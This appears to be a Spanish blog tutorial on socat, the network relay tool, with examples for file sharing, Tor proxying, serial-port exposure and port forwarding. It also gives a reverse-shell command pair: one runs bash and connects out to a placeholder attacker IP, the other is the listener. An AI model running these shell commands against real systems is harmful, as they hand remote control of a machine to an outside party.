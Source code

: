 ```yaml
---
title: socat - Multipurpose relay
date: 2025-07-15 00:00:00 +0200
categories: [software, herramientas]
tags: [herramientas, socat]     # TAG names should always be lowercase
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/1/15/Cat_August_2010-4.jpg/1920px-Cat_August_2010-4.jpg
    alt: 
---
```

# Socat

Socat actúa como un relay (retransmisor) o intermediario entre dos flujos de datos, que pueden ser:
- sockets TCP o UDP
- archivos
- pseudoterminales
- dispositivos seriales
- procesos, etc.

Es como un fontanero, capaz de conectar todo tipo de cosas entre sí. 
La página oficial del proyecto es esta dest-unreach.org/socat 

## Ejemplos uso

Compartir un archivo:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork FILE:/ruta/al/archivo.txt
``` 

Conectar una aplicación que no soporta proxies a través de TOR:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork SOCKS5:127.0.0.1:irc.hidden.onion:6667,socksport=9050
```

Exponer un puerto serie (USB) por red

``` shell
socat TCP-LISTEN:5000,reuseaddr,fork FILE:/dev/ttyUSB0,raw,echo=0
```

Simular una conexión
``` shell
socat TCP:192.168.1.210:21 -
```

Redireccionar un puerto 

``` shell
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80,sourceport=12345
```

Reverse Shell (escucha)

``` shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP:<IP_DEL_ATACANTE>:4444
```

Reverse Shell (cliente/atacante)

``` shell
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444,reuseaddr
``` 

Parece que Socat podría convertirse en el sucesor legítimo de Netcat llamado "la navaja suiza de los hackers", pues Socat es más complejo y 
avanzado y tiene más funcionalidades.  

Socat puede ser una buena herramienta para resolver problemas de red y una buena solución "in situ" para resolver tareas que de otra manera requerían la instación de software adicional, servidores o middelware, etc. 


